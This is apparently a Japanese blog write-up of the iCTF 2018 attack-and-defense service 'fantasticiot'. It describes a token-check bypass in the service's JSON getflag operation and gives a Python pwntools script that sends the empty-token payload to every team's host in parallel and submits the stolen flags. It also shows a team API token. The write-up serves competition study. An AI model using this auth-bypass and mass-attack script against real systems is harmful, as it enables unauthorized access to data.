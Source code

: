 ```yaml
---
layout: post
alias: "/blog/2018/03/17/ictf-2018-fantasticiot/"
date: "2018-03-17T16:45:46+09:00"
tags: [ "ctf", "writeup", "ictf", "attack-and-defense" ]
---
```


# iCTF 2018: Fantasticiot

-   <https://ictf2018.net/>
-   <https://scoreboard.ictf2018.net/#/scores>

A&Dだと気付いたので参加した回。
順位が上のチームからしか攻撃点が得られないわりに点差が開かないため「最終tickまで順位調整しつつ潜伏しておいて最後にまとめてflag提出」が有効に見えた。
1位のチームはscoreboard hackを疑いたくなる点数取ってた。

## solution

動いてるbinaryをrevすると入力がjsonであることが分かる。特に以下の4つを受け入れる。
op `getflag` に存在する `token` field はおそらく一致判定が必要なものであるが、これが何であれ結果が返ってきてしまうバグがある。他は見なくてよかった。

``` json
{
    "service": "flag",
    "op": "getflag",
    "id": "${ID}",
    "token": "${TOKEN}"
}
```

``` json
{
    "service": "flag",
    "op": "setflag",
    "id": "${ID}",
    "token": "${TOKEN}",
    "flag": "${FLAG}"
}
```

``` json
{
    "service": "fridge",
    "op": "addfridge",
    ...
}
```

``` json
{
    "service": "fridge",
    "op": "getfridge",
    ...
}
```

## implementation

与えられた `hack_the_planet.py` を修正。


並列化しないとtimeout待ちで遅い。

``` python
#!/usr/bin/env python2

# This code was written 10 hours before the competition, yikes
# Any bugs are your problem

import socks # pip install PySocks
import socket
socks.setdefaultproxy(socks.PROXY_TYPE_SOCKS5, '127.0.0.1', 4444)
socket.socket = socks.socksocket

from pwn import * # pip install pwntools
from swpag_client import Team # pip install swpag_client
import time
import concurrent.futures
import sys

team = Team(None, "SazPO4ahE9QQqQ21ryBe8UEL017vis7t")

def team_ip(team_host):
    # 172.31.129.1 (team1) ... 172.31.129.254 (team254) ... 172.31.130.1 (team255) ...
    team_number = int(team_host[4:])
    minor = ((team_number - 1) % 254) + 1
    major = (team_number / 255) + 129
    return '172.31.{major}.{minor}'.format(major=major, minor=minor)

import json
def pwn_fantasticiot(conn, flag_id):
    payload = {
        'service': 'flag',
        'op': 'getflag',
        'id': flag_id,
        'token': '',
    }
    conn.sendline(json.dumps(payload))
    result = json.loads(conn.recvline())
    print result
    return result['flag']

def attack_fantasticiot(ip, port, flag_id):
    try:
        with remote(ip, port, timeout=1) as conn:
            if service['service_name'] == u'fantasticiot':
                flag = pwn_fantasticiot(conn, flag_id)
            else:
                assert False
        result = team.submit_flag([ flag ])
        service_flag_ids[service['service_name']].add(flag_id)
        print("HACKED", flag, result)
    except Exception as e:
        print("Error connecting to", target['team_name'], target['hostname'], ip, port)
        print(e)

services = team.get_service_list()
service_flag_ids = dict()
while True:
    for service in services:
        if service['service_name'] != u'fantasticiot':
            continue
        print("Going to attack", service['service_name'])
        if service['service_name'] not in service_flag_ids:
            service_flag_ids[service['service_name']] = set()
        targets = team.get_targets(service['service_id'])
        with concurrent.futures.ThreadPoolExecutor() as executor:
            for target in targets:
                flag_id = target['flag_id']
                ip = team_ip(target['hostname'])
                port = target['port']
                if flag_id not in service_flag_ids[service['service_name']]:
                    service_flag_ids[service['service_name']].add(flag_id)
                    executor.submit(attack_fantasticiot, ip, port, flag_id)

    time.sleep(10) # DOS is against the rules
```
